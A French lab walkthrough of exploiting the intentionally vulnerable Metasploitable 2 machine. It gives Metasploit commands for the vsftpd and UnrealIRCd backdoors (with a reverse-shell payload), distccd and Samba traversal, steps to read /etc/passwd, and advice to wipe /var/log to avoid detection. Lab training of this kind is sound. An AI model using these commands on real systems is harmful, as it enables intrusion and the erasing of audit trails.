









# Pentest sur la machine Metasploit 2

## Exploitation de vsftpd 2.3.4

Sur la Kali Linux, vérifier que le service FTP est actif en effectuant une connexion : 
```bash
ftp <IP machine Metasploit>
```

### Lancement de Metasploit

```bash
sudo msfconsole
```

<p align="center">
    
</p>

### Chargement et configuration du module d'exploitation

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

```bash
set RHOSTS <IP machine Metasploit>
set RPORT 21
```

```bash
run
```
<p align="center">
    
</p>

### Vérifications post-exploit

Pour vérifier si cela a réussi (whoami doit renvoyer root) : 

```bash
whoami
```

Lister les fichiers sensibles : 

```bash
ls /root
```

<p align="center">
    
</p>

Eviter que les activités de pentest soient détectées : 

```bash
rm -rf /var/log/*
```

## Capture du trafic

### Lancement d'un tcpdump sur l'interface

Sur le serveur Suricata : 
```bash
tcpdump -i ens19 -w cap.pcap
```

### Connexion Telnet depuis la machine Kali Linux

```bash
telnet <IP machine Metasploit>
```

### Copie du .pcap vers la machine Kali Linux 

```bash
scp cap.pcap user@10.10.0.5:/home/user
```

### Observation via Wireshark

Sur la machine Kali, aller dans l'explorateur de fichiers, ouvrir le fichier .pcap et appliquer le filtre idoine : 

<p align="center">
    
</p>

En observant des paquets, on peut reconstituer le mot de passe :

<p align="center">
    
</p>

## Unix Basics

Les ports TCP 512, 513 et 514 sont connus sous le nom de services "r" - des services utilisés pour des tâches liées à la gestion à distance et la communication entre machines - et ont été mal configurés pour permettre l'accès à distance depuis n'importe quel hôte.

```bash
rlogin -l root <IP machine Metasploit>
```

<p align="center">
    
</p> 

Le prochain service examiné est le système de fichiers réseau (NFS). NFS peut être identifié en demandant au portmapper une liste de services. Le portmapper est un service qui permet aux programmes sur un réseau de découvrir dynamiquement quels ports sont utilisés par des services spécifiques dans un système. L'exemple ci-dessous utilise rpcinfo pour identifier NFS et showmount -e pour déterminer que le partage " / " (la racine du système de fichiers) est exporté. 

```bash
rpcinfo -p <IP machine Metasploit>
```

```bash
showmount -e <IP machine Metasploit>
```

<p align="center">
    
</p> 

## Backdoors

Sur le port 6667, Metasploitable2 exécute le démon IRC UnrealRCD. Cette version contient une *backdoor* qui est passée inaperçue pendant des mois - elle se déclenche en envoyant les lettres "AB" suivies d'une commande système au serveur sur n'importe quel port d'écoute. Metasploit dispose d'un module permettant d'exploiter cette *backdoor* afin d'obtenir un shell interactif : 

```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST <IP machine Metasploit>
exploit
```

Il est parfois nécessaire de configurer le payload et le LHOST, pour ce faire :

```bash
set payload cmd/unix/reverse
set LHOST <IP attaquant>
```

<p align="center">
    
</p> 

<p align="center">
    
</p> 

## Backdoors non intentionnelles 

En plus des *backdoors* malveillantes, certains services sont presque des *backdoors* par leur nature même. Le premier d'entre eux installé sur Metasploitable2 est distccd. Le problème avec ce service est qu'un attaquant peut facilement en abuser pour exécuter une commande de son choix, comme le montre l'utilisation du module Metasploit ci-dessous. 

```bash
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <IP machine Metasploit>
exploit
```

<p align="center">
    
</p> 

Dans le cas ci-dessus, il nous a fallu utiliser configurer le payload et le LHOST comme vu précédemment. 

<p align="center">
    
</p> 

Samba, lorsqu'il est configuré avec un partage de fichiers accessible en écriture et des "liens larges" activés (par défaut), peut également être utilisé comme une sorte de *backdoor* pour accéder à des fichiers qui n'étaient pas censés être partagés. L'exemple ci-dessous utilise un module Metasploit pour permettre l'accès au système de fichiers racine à l'aide d'une connexion anonyme et d'un partage en écriture. 

```bash
smbclient -L //<IP machine Metasploit>
```

<p align="center">
    
</p> 

```bash
msfconsole
use auxiliary/admin/smb/samba_symlink_traversal
set RHOST <IP machine Metasploit>
set SMBSHARE tmp
exploit
exit
```

<p align="center">
    
</p> 

Quitter msfconsole et passer les commandes suivantes :

```bash
smbclient //<IP machine Metasploit> 
cd rootfs
cd etc
more passwd
```

<p align="center">
    
</p> 

<p align="center">
    
</p> 